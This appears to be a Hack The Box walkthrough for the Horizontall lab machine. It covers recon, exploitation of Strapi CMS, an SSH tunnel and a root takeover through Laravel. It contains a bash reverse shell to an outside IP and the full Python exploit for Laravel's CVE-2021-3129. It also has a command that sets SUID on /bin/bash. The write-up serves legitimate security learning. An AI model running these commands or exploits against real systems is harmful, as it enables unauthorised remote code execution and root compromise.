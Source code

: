 ```yaml
---
layout: single
title: Horizontall - Hack The Box
excerpt: "Horizontall is an easy difficulty Linux machine were only HTTP and SSH services are exposed. Enumeration of the website reveals that it is built using the Vue JS framework. Reviewing the source code of the Javascript file, a new virtual host is discovered. This host contains the 'Strapi Headless CMS' which is vulnerable to two CVEs allowing potential attackers to gain remote code execution on the system as the 'strapi' user. Then, after enumerating services listening only on localhost on the remote machine, a Laravel instance is discovered. In order to access the port that Laravel is listening on, SSH tunnelling is used. The Laravel framework installed is outdated and running on debug mode. Another CVE can be exploited to gain remote code execution through Laravel as 'root'."
date: 2025-05-14
classes: wide
header:
  teaser: /img2/horizontall.png
  teaser_home_page: true
  icon: /img2/images/hackthebox.webp
categories:
  - hackthebox
  - Linux
  - Easy
tags:
  - Information Leakage
  - Port Forwarding
  - Strapi CMS Exploitation
  - Laravel Exploitation
---
```



## Reconnaissance

- Nmap 

```bash
nmap -sS --open -p- --min-rate 5000 -vvv -n -Pn 10.10.11.105
```

![](/img2/Pasted%20image%2020250521142851.png)

- Add domain to local DNS

```bash
echo "10.10.11.105 horizontall.htb" >> /etc/hosts
```

- Whatweb

```bash
whatweb http://horizontall.htb/
```

![](/img2/Pasted%20image%2020250521144005.png)

- Inspect source code

```bash
curl http://horizontall.htb/ | grep href=
```

![](/img2/Pasted%20image%2020250521151913.png)

- Inspect source code files

```bash
curl http://horizontall.htb/js/app.c68eb462.js | grep htb
```

![](/img2/Pasted%20image%2020250521152212.png)

- Whatweb

```bash
whatweb http://api-prod.horizontall.htb
```

![](/img2/Pasted%20image%2020250521152302.png)

## Exploitation

- Strapi Set Password

```bash
searchsploit Strapi
```

![](/img2/Pasted%20image%2020250521152550.png)

```bash
searchsploit -m multiple/webapps/50239.py
```

```bash
python3 50239.py http://api-prod.horizontall.htb
```

![](/img2/Pasted%20image%2020250521152726.png)

- Reverse Shell

```bash
bash -c 'bash -i >& /dev/tcp/10.10.16.7/9000 0>&1'
```

![](/img2/Pasted%20image%2020250521153004.png)

```bash
nc -nlvp 9000
```

## Post-exploitation

- Check internal ports

```bash
netstat -nlpt
```

![](/img2/Pasted%20image%2020250521160104.png)

- Check port 8000 website

```bash
curl localhost:8000
```

![](/img2/Pasted%20image%2020250521160214.png)

- CVE-2021-3129 Lavarel RCE

```python
#!/usr/bin/env python3
import requests
import subprocess
import re
import os
import sys


# Send a post request with a specific viewFile value, returning HTTP response
def send(url='', viewfile=''):
    headers = {
        "Accept": "application/json"
    }
    data = {
        "solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
        "parameters": {
            "variableName": "whateverYouWant",
            "viewFile": ""
        }
    }
    data['parameters']['viewFile'] = viewfile
    resp = requests.post(url, json=data, headers=headers, verify=False)
    return resp


# Generate payload and return it as text
def generate(chain='', command=''):
    # Ensure that we have PHPGGC in current directory, if not we'll clone it
    if os.path.exists("phpggc"):
        print("[+] PHPGGC found. Generating payload and deploy it to the target")
    else:
        print("[i] PHPGGC not found. Cloning it")
        os.system("git clone https://github.com/ambionics/phpggc.git")
    payload = subprocess.getoutput(
        r"php -d'phar.readonly=0' ./phpggc/phpggc '%s' system '%s' --phar phar -o php://output | base64 -w0 | "
        r"sed -E 's/./\0=00/g; s/==/=3D=/g; s/$/=00/g'" % (chain, command))
    return payload


# Clear logs,
def clear(url):
    print("[i] Trying to clear logs")
    while (send(url,
                "php://filter/write=convert.iconv.utf-8.utf-16be|convert.quoted-printable-encode|convert.iconv.utf"
                "-16be.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log").status_code != 200):
        continue
    print("[+] Logs cleared")


if __name__ == '__main__':
    if len(sys.argv) < 4:
        print("Usage:   %s <URL> <CHAIN> <CMD>" % sys.argv[0])
        print("Example: %s http(s)://localhost:8000 Monolog/RCE1 whoami" % sys.argv[0])
        print("I recommend to use Monolog/RCE1 or Monolog/RCE2 as CHAIN")
        exit(1)
    url = sys.argv[1] + "/_ignition/execute-solution"
    chain = sys.argv[2]
    command = sys.argv[3]

    # Step 1. Clear logs, write the first log entry
    clear(url)
    send(url, "AA")

    # Step 3. Write the second log entry with encoded PHAR payload
    send(url, generate(chain, command))

    # Step 4. Convert log file to a valid PHAR
    if (send(url,
             "php://filter/read=convert.quoted-printable-decode|convert.iconv.utf-16le.utf-8|convert.base64"
             "-decode/resource=../storage/logs/laravel.log").status_code == 200):
        print("[+] Successfully converted logs to PHAR")
    else:
        print("[-] Fail to convert logs to PHAR")

    # Step 5. Trigger PHAR deserialization, extract the output
    response = send(url, "phar://../storage/logs/laravel.log")
    result = re.sub("{[\s\S]*}", "", response.text)
    if result:
        print("[+] PHAR deserialized. Exploited\n")
        print(result)
    else:
        print("[i] There is no output")

    # Clear logs
    clear(url)
```

```bash
git clone https://github.com/ambionics/phpggc.git/ 
tar -cvf phpggc.tar phpggc
python3 -m http.server
```

```bash
curl -o phpggc.tar http://10.10.16.7:8000/phpggc.tar
tar -xf phpggc
```

```bash
python3 exploit.py http://localhost:8000 Monolog/RCE1 "chmod u+s /bin/bash"
```

![](/img2/Pasted%20image%2020250521162225.png)

![](/img2/Pasted%20image%2020250521162148.png)
